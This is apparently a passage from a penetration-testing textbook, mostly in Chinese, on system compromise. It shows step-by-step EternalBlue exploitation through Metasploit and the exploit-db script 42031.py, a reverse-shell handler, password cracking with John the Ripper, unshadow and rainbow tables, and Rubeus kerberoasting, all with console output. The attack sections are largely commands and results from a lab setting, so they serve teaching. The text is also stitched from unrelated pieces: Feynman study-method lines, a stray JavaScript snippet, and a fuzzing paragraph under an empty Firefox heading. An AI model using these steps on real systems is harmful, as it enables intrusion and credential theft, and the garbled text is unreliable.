你看到的只是一个 exploit 类别。你还会看到 web application exploit、denial‑of‑service exploit，以及本地 exploit（包括特权提升 exploit）。虽然远程 exploit 听起来更“性感”——毕竟谁不喜欢直接弹出一个 shell——但利用系统的方式远不止于此。事实上，往往有更容易的方法来渗透网络。撰写时，`www.exploit-db.com` 已经存档了近 45,000 条 exploit。

-   [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者**Richard Feynman**。

1.  运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，*难以遗忘*。

```
if (condVar > someVal) {console.log("xxx")}
```


- Tor 设计为匿名空间。这不仅包括访问网站的用户，也包括网站本身。要学习所有内容的位置会很费时。它也是非法商业的场所。你可能在 Tor 网络上发现一些漏洞，但更有可能的是，如果你发现了，它们会被出售而不是出于社区利益免费提供。

- 系统妥协

- 利用，或系统妥协，对我们有两个目的。其中之一是证明漏洞是真实存在的，而不仅仅是理论上的。毕竟，当我们进行漏洞扫描时，会得到系统可能存在漏洞的线索，但直到漏洞被利用后，才能确认该漏洞确实存在，这意味着我们不确定是否真的需要修复它。第二个原因是，利用漏洞并妥协系统可以让我们更深入组织内部，可能进一步暴露出其他漏洞。这部分原因是我们可能获得更深层的网络可达性，也可能能够窃取可以用于其他系统的凭证。

- 我将介绍几种不同的系统妥协方法。我将从 `Metasploit` 开始，因为它是最常用的方法。需要注意的是，`Metasploit` 并不是唯一的 `exploit` 框架，还有其他商业软件可以完成相同的工作。`Metasploit` 也有商业版本，如果用于商业目的，应该购买商业许可证；此外还有一个社区版本。此外，你可以获取 `Kali Linux`，它默认已经预装了 `Metasploit`。其他软件包大致功能相同，你应该查看它们，看看在商业环境中更适合哪一个。

- 我们也可以回到 `Exploit Database` 获取更多利用可能性。一旦你拥有漏洞列表，就可以在 `exploit database` 中搜索可用的实际 `exploit`。我将介绍如何识别模块并使用它们。在某些情况下，情况并不总是只需运行一个脚本。

### Metasploit 模块

如果针对漏洞的已知 `exploit` 存在，它很可能已经进入了 `Metasploit`。这个项目最初是作为 `exploit` 框架开发的，目标是提供建块，使得通过组合编程模块可以快速构建 `exploit`。additionally，`shellcode` 和 `encoder` 也可用于在开发 `exploit` 时嵌入。虽然它最初是面向发现漏洞的安全研究人员设计的，方便他们快速创建 `exploit`，但现在已成为渗透和安全测试人员的首选工具。其原因之一是可用的模块数量庞大，可在测试系统和网络时直接使用。

几乎整个渗透测试的生命周期都可以在 `Metasploit` 内完成。截至本文写作时，已有超过 1,000 个 `auxiliary` 模块，其中许多是用于侦察和枚举的扫描器。通过这些模块，你可以了解网络的构造和提供的服务。你还可以导入 `OpenVAS`、`Nessus` 和 `Nexpose`（由与 `Metasploit` 同属一公司的公司开发）的漏洞扫描结果。获取这些信息后，下一步是进行利用。目前 `Metasploit` 已有超过 2,200 个 `exploit` 模块，虽然由于软件的流行度和 `Rapid7` 的持续开发，这个数字会不断变化。

`Metasploit` 让利用过程比手动编写 `exploit` 更加简便，前提是 `Metasploit` 已经提供相应的 `exploit`。如果没有，则你必须手动编写 `exploit`。我们将使用命令行进行操作，尽管 `Rapid7` 也提供了 Web 界面的包。`CLI` 会显示所有正在进行的操作。

我们将从 `msfconsole` 程序开始。虽然有多种方式获取 `Metasploit`，但这里我使用的是 `Kali Linux` 实例，它默认已预装 `Metasploit`。只需设置用于存储主机、漏洞和获取的 `loot` 的数据库即可。下面的列表展示启动 `msfconsole` 的过程，这是与 `Metasploit` 交互的命令行程序。

**Starting `msfconsole`**

```
kilroy@quiche:~$ sudo msfconsole

_                                                    _

/ \    /\         __                         _   __  /_/ __

| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \

| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|

|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_

       |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\

        =[ metasploit v6.2.29-dev                          ]

 + -- --=[ 2271 exploits - 1189 auxiliary - 404 post       ]

 + -- --=[ 951 payloads - 45 encoders - 11 nops            ]

 + -- --=[ 9 evasion                                       ]

Metasploit tip: View advanced module options with

advanced

Metasploit Documentation: https://docs.metasploit.com/

msf6>
```

一旦 `msfconsole` 启动，我们需要查找针对已识别漏洞的 `exploit`。我将在家庭网络中使用一台 `Windows Server`，它是 `Metasploitable 3` 实例，内置了多个易受攻击的服务，非常适合演示和练习。查找 `exploit` 时，可以使用搜索功能。下面的列表展示了搜索 `eternalblue` 的结果，这是利用 `CVE‑2017‑0144` 漏洞的 `exploit`，即 `EternalBlue SMB` 漏洞。搜索结果包含多个匹配项，你可以通过指定类型（如 `type:exploit`）进一步缩小范围，以便更快定位合适的模块。

```
msf6> search eternalblue

Matching Modules

==============

    #  Name                                      Disclosure Date  Rank     Check  Description

    -  ----                                      ---------------  ----     -----  -----------

    0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption

    1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution

    2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution

    3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection

    4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce 
```

我们可以根据目标需求选择不同的模块。在此情境下，我想在远程系统上获取一个 `shell`；辅助模块会让我们在远程系统上执行单条命令，这与以 `psexec` 结尾的命令相同。因此，我们将使用以 `010_eternalblue` 结尾的 `exploit`，如下面的代码列表所示。这将在远程主机上提供一个 `shell`。从该 `shell` 中，我们可以发出命令，而不止于单个命令，其他模块只能做到的事。

一旦我们确定使用的模块，就需要在 `msfconsole` 中使用 `use` 命令加载它。每个模块都有若干选项，这些选项可以或需要设置。在某些情况下，选项已经有默认值，无需额外操作。唯一始终需要设置的参数是目标的那个，它会是 `RHOST` 或 `RHOSTS`，取决于是否期望多个目标。例如，扫描模块会使用 `RHOSTS`，而 `exploit` 模块通常使用 `RHOST` 作为参数名。下面的代码列表中，我们需要设置 `RHOST` 为要尝试 `exploit` 的目标 IP 地址。如预期，`exploit` 成功，给我们提供了远程系统的访问权限。

**Eternal Blue Exploit**

```
Msf6> use exploit/windows/smb/ms17_010_eternalblue

msf exploit(windows/smb/ms17_010_eternalblue)> set RHOST 192.168.86.24

RHOST => 192.168.86.24

msf exploit(windows/smb/ms17_010_eternalblue)> exploit

[* ] Started reverse TCP handler on 192.168.86.57:4444

[* ] 192.168.86.24:445 - Connecting to target for exploitation.

[+ ] 192.168.86.24:445 - Connection established for exploitation.

[+ ] 192.168.86.24:445 - Target OS selected valid for OS indicated by SMB reply

[* ] 192.168.86.24:445 - CORE raw buffer dump (51 bytes)

[* ] 192.168.86.24:445 - 0x00000000 57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32 Windows Server 2

[* ] 192.168.86.24:445 - 0x00000010 30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20 008 R2 Standard

[* ] 192.168.86.24:445 - 0x00000020 37 36 30 31 20 53 65 72 76 69 63 65 20 50 61 63 7601 Service Pac

[* ] 192.168.86.24:445 - 0x00000030 6b 20 31 k 1

[+ ] 192.168.86.24:445 - Target arch selected valid for arch indicated by DCE/RPC reply

[* ] 192.168.86.24:445 - Trying exploit with 12 Groom Allocations.

[* ] 192.168.86.24:445 - Sending all but last fragment of exploit packet

[* ] 192.168.86.24:445 - Starting non-paged pool grooming

[+ ] 192.168.86.24:445 - Sending SMBv2 buffers

[+ ] 192.168.86.24:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.

[* ] 192.168.86.24:445 - Sending final SMBv2 buffers.

[* ] 192.168.86.24:445 - Sending last fragment of exploit packet!

[* ] 192.168.86.24:445 - Receiving response from exploit packet

[+ ] 192.168.86.24:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!

[* ] 192.168.86.24:445 - Sending egg to corrupted connection.

[* ] 192.168.86.24:445 - Triggering free of corrupted buffer.

[* ] Command shell session 1 opened (192.168.86.57:4444 -> 192.168.86.24:50371) at 2023-01-09 19:52:40 -0600

[+ ] 192.168.86.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-==

[+ ] 192.168.86.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-==-=

[+ ] 192.168.86.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=--=
```

并不是每个漏洞都像上面这个那么成功。当你搜索模块时，会得到一个排名，指示该 `exploit` 成功的可能性。漏洞并非总是直接可用。在某些情况下，可能存在前置依赖，需要在利用漏洞之前先满足这些条件。你可能需要多次尝试 `exploit` 才能成功。如果一切都很容易直接完成，那就意味着每个人都能做到，这可能导致更多的安全测试，从而进一步减少软件中的缺陷。

### Exploit‑DB

你可以在 `www.exploit-db.com` 搜索与漏洞关联的 `exploit`。例如，我们正在使用 `Eternal Blue exploit`，已知它在 `Metasploit` 中有一个对应的模块。我们可以在 `www.exploit-db.com` 搜索与 `Eternal Blue` 漏洞相关的模块。在 `Figure 7.2` 中可以看到该搜索的结果。这里列出了三个属于 `Windows` 相关类别的结果，它们都是可以下载并运行的概念性 `Python` 脚本。


**FIGURE 7.2** Exploit‑DB search results

如果你的系统已安装 `Exploit‑DB` 包（即拥有 `searchsploit`），你可以直接运行 `searchsploit` 完成相同的搜索。`Exploit‑DB` 仓库包含 `exploit` 代码和 `shellcode`，因此搜索结果不包含像网站那样的论文，只列出 `exploit` 代码。你不需要通过浏览器下载或查看代码，因为已经在本地下载好了。下面的代码列表展示了搜索结果。我们得到的是三个 `exploit` 程序的列表，但没有 `shellcode` 结果。这并不奇怪，因为 `Eternal Blue` 没有专门的 `shellcode`，它只是 `SMB` 协议实现中的一个漏洞。

**searchsploit 结果 for Eternal Blue**

```
kilroy@quiche:~$ searchsploit "eternal blue"

 --------------------------------------- --------------------------------------

  Exploit Title                        |  Path

                                       | (/usr/share/exploitdb/)

 --------------------------------------- --------------------------------------

 Microsoft Windows Windows 7/2008 R2 (x | exploits/windows_x86-64/remote/42031.py

 Microsoft Windows Windows 7/8.1/2008 R | exploits/windows/remote/42315.py

 Microsoft Windows Windows 8/8.1/2012 R | exploits/windows_x86-64/remote/42030.py

 --------------------------------------- --------------------------------------

 Shellcodes: No Result
```


你可以在当前目录运行该 exploit，或将其复制到家目录后再运行，这样在执行时无需再提供 Python 脚本的完整路径。这样也方便后续修改，同时保持原始功能代码不变。下面的代码列表展示了使用 `42031.py` 对我们之前在 Metasploit 中使用的同一目标系统进行攻击的过程。命令行最后的参数是名为 `payload` 的可执行文件，它是由两段独立的可执行代码组合而成。第一段是 Python exploit 作者编写的 shellcode，末尾附带一个用于向监听系统发送连接的桩程序。

## Exploit of Eternal Blue from Python Script

```bash
root@quiche:~# python 42031.py 192.168.86.24 payload

 shellcode size: 1262

 numGroomConn: 13

 Target OS: Windows Server 2008 R2 Standard 7601 Service Pack 1

 SMB1 session setup allocate nonpaged pool success

 SMB1 session setup allocate nonpaged pool success

 good response status: INVALID_PARAMETER

 done
```

这只是攻击的一半过程。这里展示的是 exploit 成功触发漏洞并让远程服务执行提供的 shellcode。该 shellcode 是由汇编语言编写的可执行文件，包含 Meterpreter shell 以及一种方式让它回连到你配置的监听系统。因此，你也需要设置好监听。

## Exploit Handler

```bash
msf> use exploit/multi/handler
msf exploit(multi/handler)> set LHOST 192.168.86.57
LHOST => 192.168.86.57
msf exploit(multi/handler)> set LPORT 4444
LPORT => 4444
msf exploit(multi/handler)> exploit
```

一种常用的用于破解密码的工具是 John the Ripper。John 是一个强大的离线密码破解工具，这意味着它可以在从原始来源抓取的文件上工作。它拥有多种模式，可用于破解密码。第一种，如下面的代码列表中所示，被称为 `single crack mode`。`single crack mode` 从文件的不同字段中获取信息，并应用变形规则进行处理，以尝试作为密码。由于输入列表相对较小，会有大量的变形规则用于改变源文本，生成潜在密码。这被认为是 John 用于破解密码的最快模式。同时，这也是开发者建议您首先使用的模式。

## John Single Crack Mode

```bash
root@quiche:~# john passwords.txt

Warning: detected hash type "LM", but the string is also recognized as "NT"

Use the "--format=NT" option to force loading these as that type instead

Warning: detected hash type "LM", but the string is also recognized as "NT-old"

Use the "--format=NT-old" option to force loading these as that type instead

Using default input encoding: UTF-8

Using default target encoding: CP850

Loaded 8 password hashes with no different salts (LM [DES 128/128 SSE2-16])

Press 'q' or Ctrl-C to abort, almost any other key for status

                  (SUPPORT_388945a0)

                  (Guest)

BLANDES          (Administrator:1)

KSUHCP9          (HelpAssistant:2)
```

John 还可以使用 `wordlist mode` 读取字典文件进行破解。这是一个直接的模式，接受字典文件作为输入，比较每个单词的哈希值与目标密码哈希。您可以对字典文件应用变形规则，生成单词的变体，因为人们常常使用已知单词的变体作为密码。字典文件越长，成功破解密码的机会越大。然而，字典文件越长，破解过程所需时间也越长。请记住，字典文件只能识别列表中已有的密码。如果有人使用长 passphrase 或真正随机字符，使用字典文件将无效。这意味着您需要尝试其他模式。

最后，John 使用 `incremental mode` 尝试所有可能的字符组合。要运行该模式，John 必须知道尝试的字符集，例如所有 ASCII 字符、所有大写字符、所有数字等。您还需要告诉 John 密码的长度。由于可能的变体数量巨大，这种模式通常需要被停止，因为 John 在合理的时间内无法遍历所有变体，除非您指定了短密码长度。

此次 John 的运行是针对从 Meterpreter 中获取的 Windows 密码 hashdump。如果您想处理 Linux 密码，还需要额外的一步。在早期的 Unix（Linux 源自）时代，存在一个单一文件存储用户信息和密码。该文件的问题在于，需要获取该文件的常规用户必须拥有读取权限，这导致密码存储在此文件中，形成安全隐患。任何人都可以读取哈希值并利用破解策略获取密码。因此，公开信息被存放在名为 `passwd` 的文件中（为保持向后兼容），而密码以及与之关联的信息（如用户名和用户 ID）则存放在另一个文件，即 `shadow` 文件。

我们可以通过 `unshadow` 程序将这两个文件合并，使所有所需信息在一起，并由 `unshadow` 合并 shadow 文件和 passwd 文件的内容。下面是一次使用 captured shadow 文件和 passwd 文件运行 `unshadow` 的示例：

## Using `unshadow`

```bash
root@quiche:~# unshadow passwd.local shadow.local

root:$6$yCc28ASu$WmFwkvikDeKL4VtJgEnYcD.PXG.4UixCikBO5jBvE3JjV43nLsfpB1z57qwLh0SNo15m5JfyQWEMhLjRv4rRO.:0:0:root:/root:/bin/bash

daemon:*:1:1:daemon:/usr/sbin:/usr/sin nologin

bin:*:2:2:bin:/bin:/usr/sbin/nologin

sys:*:3:3:sys:/dev:/usr/sbin/nologin

sync:*:4:65554:sync:/bin:/bin/sync

games:*:5:60:games:/usr/games:/usr/sbin/nologin

man:*:6:12:man:/var/cache/man:/usr/sbin/nologin

lp:*:7:7:lp:/var/spool/lpd:/usr/sbin/nologin

mail:*:8:8:mail:/var/mail:/usr/sbin/nologin

news:*:9:9:news:/var/spool/news:/usr/sbin/nologin

uucp:*:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin

proxy:*:13:13:proxy:/bin:/usr/sbin/nologin

www-data:*:33:33:www-data:/var/www:/usr/sbin/nologin

backup:*:34:34:backup:/var/backups:/usr/sbin/nologin

list:*:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin

irc:*:39:39:ircd:/var/run/ircd:/usr/sbin/nologin

gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
```

如所示，大多数用户没有密码，只有 root 用户有密码。合并两个文件后，您可以对其运行 John 以获取密码。John 会识别文件格式和使用的哈希算法。文件中的 `$6$` 前缀表示密码使用了 SHA‑512（安全哈希算法，输出长度 512 位）。其后是哈希值，John 会将其与待比对的密码进行比对。John 并不是唯一从本地文件获取密码的方法。

## Rainbow Tables

对于每一个由 John 测试的密码，都需要计算其哈希值以进行比对。这消耗时间和计算资源。随着现代处理器的性能，所需的时间和资源并不算大，但当处理数百万单词时，微秒级的开销会累积。为了避免在检查时重复计算哈希，可以事先预计算并存储这些哈希，随后只需在索引中查找对应的哈希即可获取明文。所有耗时的工作在实际需要破解密码之前即可完成。其代价是需要存储这些预计算的哈希。

Rainbow tables 是存储的预计算哈希。它们并非简单的哈希与密码的一一映射，而是以链式结构存储，以降低所需的明文存储量。在某些情况下，明文可以通过推断得到，而不必直接存储。有许多工具可以从这些表中查找密码，但首先必须获得表本身。Rainbow Crack 项目提供了一个查找密码的工具以及一个生成 rainbow table 的工具。这个生成工具并不是用于从单词列表生成哈希，而是在给定约束下生成所有可能密码的哈希。下面的代码示例展示了使用 `rtgen` 生成 rainbow table 的过程。

## Using `rtgen` for Rainbow Tables

```bash
root@quiche:~# rtgen md5 loweralpha-numeric 5 8 0 3800 33554432 0

rainbow table md5_loweralpha-numeric#5-8_0_3800x33554432_0.rt parameters

hash algorithm:         md5

hash length:            16

charset name:           loweralpha-numeric

charset data:           abcdefghijklmnopqrstuvwxyz0123456789

charset data in hex:    61 62 63 64 65 66 67 68 69 6a 6b 6c 6d 6e 6f 70 71 72 73 74 75 76 77 78 79 7a 30 31 32 33 34 35 36 37 38 39

charset length:         36

plaintext length range: 5 - 8

reduce offset:          0x00000000

plaintext total:        2901711320064

sequential starting point begin from 0 (0x0000000000000000)

generating…

131072 of 33554432 rainbow chains generated (0 m 28.5 s)

262144 of 33554432 rainbow chains generated (0 m 28.5 s)

393216 of 33554432 rainbow chains generated (0 m 28.5 s)

524288 of 33554432 rainbow chains generated (0 m 28.5 s)

655360 of 33554432 rainbow chains generated (0 m 28.5 s)

786432 of 33554432 rainbow chains generated (0 m 28.5 s)

917504 of 33554432 rainbow chains generated (0 m 28.5 s)

1048576 of 33554432 rainbow chains generated (0 m 28.5 s)

1179648 of 33554432 rainbow chains generated (0 m 28.5 s)

1310720 of 33554432 rainbow chains generated (0 m 28.5 s)

1441792 of 33554432 rainbow chains generated (0 m 28.6 s)
```


You'll notice the parameters passed into `rtgen`. The first is the hashing algorithm used. In this case, it's Message Digest 5 (MD5), a commonly used hashing algorithm. The hashing algorithm used in the rainbow table has to match the one used in the password file. If they don't match, you aren't going to find the hash or the password. The next parameter is the character set that should be used to generate the passwords. We're using lowercase letters as well as numbers. This gives us 36 possible characters in each position. That yields 36*n* values, where *n* is the number of positions. If we were trying to generate four‑character passwords, we would have 36*36*36*36 possible passwords, which is 1,679,616—nearly 2 million four‑character passwords.

We need to tell `rtgen` how long we want our passwords to be. The next two values on the command line are the minimum password length and the maximum password length. For our purposes, we are generating passwords that have between five and eight characters. That means a total of 36⁵ + 36⁶ + 36⁷ + 36⁸ passwords. This gives us 2.8 * 10¹² as the number of passwords. Obviously, the more password lengths we take on, the more passwords we have to generate and the larger our output will be.

The next value selects a function, internal to `rtgen`, that is used to map the hashes to plain text. This is called a `reduction function`. The next two values have to do with the rainbow chains. The first is the number of chains generated. The more chains generated, the more data is stored on disk because it means more plain text is stored. The value after that is the number of chains to generate. A rainbow table is a collection of chains, where each chain is 16 bytes. Finally, the last value relates to the ability to store a large rainbow table in multiple files. To do that, keep all the other parameters the same and change this value.

Once we have a rainbow table, we can check the password file we have against it. You can see a run of the program `rcrack` in the next code listing. There were no results from this run because the rainbow tables that were used were very limited. To have enough in the way of rainbow tables to really crack passwords, we would need at least gigabytes, if not terabytes or more. There are two parameters here. The first is the location of the rainbow tables, which is dot (`.`) here, meaning the local directory. The second tells `rcrack` that the file being provided is a set of LAN Man hashes.

## Running `rcrack` with Rainbow Tables

```
kilroy@quiche:~$ rcrack . -lm passwords.txt

1 rainbow tables found

no hash found

result
```

One thing to note here with respect to the location of the rainbow tables is they are not actually stored in the directory from which `rcrack` is run. Instead, the rainbow tables are stored in `/usr/share/rainbowcrack` on the Kali system from which this was run. When you run `rtgen`, the table is stored in that directory because that's where the binaries are located. The current directory in this instance is the directory where `rcrack` is rather than the directory where the user is.

## Kerberoasting

`Kerberoasting` is another type of password cracking attack that relies on getting access to a network. The name is based on the fact that Active Directory authentication over a network uses a protocol called Kerberos. Kerberos, in turn, is named for the three‑headed dog of Greek mythology who guarded the gates of the Underworld to prevent those there from leaving. It was originally developed at the Massachusetts Institute of Technology (MIT) as part of Project Athena, which was also responsible for other projects like the X Window System, a graphical user interface framework for Unix‑like systems.

Kerberos works in a client‑server mode. Figure 7.3 shows a diagram of how Kerberos works in different modes: client authentication to the Authentication Server (AS), client service authentication, and a client making a service request. Messages from the client and the Kerberos servers are encrypted using a key on the client side, which is effectively the user's password in cases where it relies on a user to authenticate to request services on the network. If the server decrypts using the password it knows about and doesn't get the right data out, it says the password is incorrect, so the authentication attempt fails. Kerberos is the authentication protocol that has been used in Windows Active Directory (AD) implementations since Windows 2000.

The Kerberos architecture specifies several services, which may all be on the same system or may be separate servers. First is the key distribution center (KDC). The KDC is a common service used in cryptosystems to protect key management. On top of the KDC is a ticket‑granting service (TGS), which issues time‑stamped messages called ticket‑granting tickets (TGTs) that are encrypted using the TGS's secret key. The time stamp and encrypted message help to protect the overall design as these tickets shouldn't be spoofed since they require the encryption key that belongs to the TGS. Additionally, as they are time‑stamped, they can help protect against replay attacks, where a message gets put onto the network that was previously captured in order to get access to a service protected by Kerberos.


**FIGURE 7.3** Kerberos authentication ¶ Source: Jeran Renz / Wikimedia Commons / CC BY 4.0.

- 域控制器将票据发送给用户，而该用户受攻击者控制。票据随后被发送到服务，该服务解密票据以判断用户是否获准访问该服务。该票据位于内存中，可从中提取并离线解密（或离线破解）。
- 有一系列工具可用于实施 Kerberoasting 攻击。其中之一是名为 `Rubeus` 的工具。下面是针对 Windows 域控制器 `192.168.4.218` 运行 `Rubeus` 的示例。此运行会提供一个拥有域认证凭据的用户名和密码。你也可以提供密码哈希（如果你手头有的话）。这将为该用户检索票据。票据可以保存到文件中，稍后再使用。如果提供正确的命令行参数，`Rubeus` 会为你完成存储。

```
PS C:\Users\Ric Messier\Documents> .\rubeus.exe asktgt /user:bogus /password:AB4dPW223! /domain:washere.local /dc:192.168.4.218

   ______        _

  (_____ \      | |

   _____) )_   _| |__  _____ _   _  ___

  |  __  /| | | |  _ \| ___ | | | |/___)

  | |  \ \| |_| | |_) ) ____| |_| |___ |

  |_|   |_|____/|____/|_____)____/(___/

  V2.2.1

[*] Action: Ask TGT

[*] Using rc4_hmac hash: DDB5401FAB757F3323C628F1A3EAFAEA

[*] Building AS-REQ (w/ preauth) for: 'washere.local\bogus'

[+] TGT request successful!

[*] base64(ticket.kirbi):

doIFAjCCBP6gAwIBBaEDAgEWooIEFzCCBBNhggQPMIIEC6ADAgEFoQ8bDVdBU0hFUkUuTE9DQUyiIjA

oAMCAQKhGTAXGwZrcmJ0Z3QbDXdhc2hlcmUubG9jYWwjggPNMIIDyaADAgESoQMCAQKiggO7BIIDtxQ

zVpmAiZPxIraJ6/eARcbWtAUn8Ygs7La/pBRwmSt8ZK1q4RQzm7EsfMRUlV65i3Ajink15QdGfEi+F/

i0FiqWz+6XnNJaO3LSuAUf1sMxdBTzSo/QSxVnHVhV5feLUD4xCCTLbFzx5jreWlE/audRlN6VodDhk

nl7VqS+YAZU6MFcPI6NmDpgAgqUzubN90ATpdrws4nidduyGGtTqTJR5gWggSPCnqbXERbBvrv/uzMm

bRxHWuf5/TQYS4hsoB1YVG1B+e3hkf2pcZSkBC+ar7qu/cCQ0Pkr+VxhotTs5pVr4St8e9C5Exx4iLV

Ps38F/eZIPQg1byoEzWBXsgvQHvm6Z6sPgBP1kfPuIGyhNKaHqAabIKaJUhmM3OWBznx5EDl8mN9cQB

NxxGiO+GX2boUfqLbtOveDwj4dvMi0IN2cV7yHEmQK5h+F6jMOSD5i4tMtWJyau0dQY9/x99SCuyWBc

bPu1InqFHI0VtMVX980td9FTpmreSNkbVscrqB24bSkjQfkUHhR/E8radcXnDHHFBmfUmUDmHI71uz8

z7r49cmLqMctCwilhfoclRW1RLi4g5X+5e+a/XfYy+PfCAMON90OkVqz7166ej4LUpRC27VkK9ieYNy

ICHP8PKAV5mALz5IJRKw4RP6LAlC4tUG2DO5BvMakcRefwte2+mODCEyvbgbV9043sy/a038mUZTm5R

ilkki26DxXYQ4PYGpk8zia2630O3+fbHjG1lIllUnoTDGmVzMsRPH/w2yePozOR6N7Mcm+3PjgonF5w

0OlK3GcVB0F1M0RpX5ABwJj8yJOsaSESu8kXUxg8jBuV0uYaqip0eo2hK+asPs0+Ka9lnPhq0ifzFNC

Nr+1x/vEoLwmTfKYktHOqXtF/IqmhJKNBVCiTolQlyt9wWnb+pPD83TYOsXqxah3vlUGBXY5Wc6zlUS

a7ktZR4h30rXomUX4CRDvIYsgzmNsHpE66id4fD/26MXXy4kA0YWz+q/r9f3nBbmoZPABGMMSrtBP4O

s6PjQPJ68ndco2AezSnpGR7LGdxtG3YHnDYpmzvPvP7ilGYyziF3eym0BRnAnJRog/UYHV02dJS5ZPC

z+wmu+jpXaCKD4ILHXG7amx66pqtamFNG6LHI2uJ1HGKldIYNdoAm4D7lmjXrdw8E0jSYAGnhYdrmC9

5E/FndxYylyPslFohVSdLtcL1Ry9ANE3EHpUTZTCJglHocxMFZg8F0WpyMwHUiSqVaOB1jCB06ADAgE

ooHLBIHIfYHFMIHCoIG/MIG8MIG5oBswGaADAgEXoRIEEI59qcRDkXqpizrOjPVsVLihDxsNV0FTSEV

RS5MT0NBTKISMBCgAwIBAaEJMAcbBWJvZ3VzowcDBQBA4QAApREYDzIwMjEwMTEwMjIzNjIxWqYRGA8MDI
```


```
xMDExMTA4MzYyMVqnERgPMjAyMTAxMTcyMjM2MjFaqA8bDVdBU0hFUkUuTE9DQUypIjAgoAMCAQK

GTAXGwZrcmJ0Z3QbDXdhc2hlcmUubG9jYWw=

  ServiceName           :  krbtgt/washere.local

  ServiceRealm          :  WASHERE.LOCAL

  UserName              :  bogus

  UserRealm             :  WASHERE.LOCAL

  StartTime             :  1/10/2023 3:36:21 PM

  EndTime               :  1/11/2023 1:36:21 AM

  RenewTill             :  1/17/2023 3:36:21 PM

  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable

  KeyType               :  rc4_hmac

  Base64(key)           :  jn2pxBOReqmMOs6M9WxUuA==
```

-   严格来说，这并不是 Kerberoasting 攻击，而是针对域控制器的攻击，用于收集后续可用的票据。要执行 Kerberoasting 攻击，可以使用如下命令行：

```
PS C:\Users\Ric Messier\Documents> .\rubeus.exe kerberoast /user:bogus/domain:washere.local /dc:192.168.4.218

   ______        _

  (_____ \      | |

   _____) )_   _| |__  _____ _   _  ___

  |  __  /| | | |  _ \| ___ | | | |/___)

  | |  \ \| |_| | |_) ) ____| |_| |___ |

  |_|   |_|____/|____/|_____)____/(___/

  V2.2.1

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.

[*] Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User : bogus

[*] Target Domain : washere.local

[*] Searching path 'LDAP://192.168.4.218/DC=washere,DC=local' for Kerberoastable users
```

-   此类攻击可让你获取额外凭据，从而实现在网络内部的横向移动，即使已经在网络内部有一定立足点。这可以通过恶意软件提供远程访问实现。恶意软件在 第 8 章 “恶意软件”中有所介绍，其中包括可用于提供系统远程访问的恶意软件。你也可以通过钓鱼攻击获取用户凭据，然后使用这些凭据访问系统。请记住，要运行像 `Rubeus` 这样的工具，需要在系统上拥有命令行访问权限。由于初始系统上可能没有该工具，你需要编译并将其部署到目标系统上。

## 客户端端漏洞

当然，监听服务并不是获取系统访问的唯一途径，甚至不一定是最佳途径。这取决于攻击者想要什么。攻击者可能在寻找计算资源或网络资源。这意味着只要有系统可用即可，通常桌面系统比服务器更多。用户也是进入系统的相对容易的路径。这需要客户端漏洞，即存在于桌面但不对外直接暴露的漏洞。例如，邮件客户端可能存在漏洞。攻击者可以通过向受害者发送邮件触发该漏洞，而不是直接探测桌面系统的外部。受害者在客户端系统上打开邮件，漏洞被触发，攻击者即获取系统访问。

Web 浏览器是便捷的攻击向量，原因有多方面。其一是它们是使用最广泛的应用程序之一。并非每个人都使用像 Outlook 或 Thunderbird 这类邮件客户端，虽然这些客户端曾经非常普遍。许多人使用 Web 浏览器访问邮件。浏览器用于许多其他常用功能，以至于它们可能是某些人唯一使用的应用。例如，Chrome OS 及其运行的 Chromebook 就是以浏览器作为用户界面。Chrome OS 初始是一个轻量级 Web 客户端，大多数应用都在浏览器上下文中运行。

另一个使浏览器成为良好目标的因素是其使用范围相对集中。来自不同数据来源的统计显示，Chrome 远为占主导地位的浏览器。其次是 Internet Explorer、Firefox、Safari 和 Edge 等浏览器，但远不及 Chrome。因此，如果你能找到影响 Windows 上 Chrome 的漏洞，你将大获成功。然而，Google 在发现和修复漏洞方面极为严谨，Metasploit 中并没有针对 Chrome 的模块。不过，其他浏览器有相应的模块。例如，macOS 上的 Firefox 存在漏洞，可在 `msfconsole` 中加载该模块。

**Firefox Exploit Module in `msfconsole`**

-   使用 [`Codenomicon`](https://example.org/codenomicon) 漏洞扫描工具是一种在软件中查找错误并可能导致拒绝服务攻击的技术。它是一种简写，用于描述向应用程序发送意外或损坏数据的过程，以观察该应用程序如何处理这些数据。如果应用程序处理得当，则不会发生任何有趣的情况。你可能会得到错误，或数据仅仅被丢弃。对于我们的目的，这并不十分有意思。如果应用程序处理不佳，应用程序可能会崩溃。

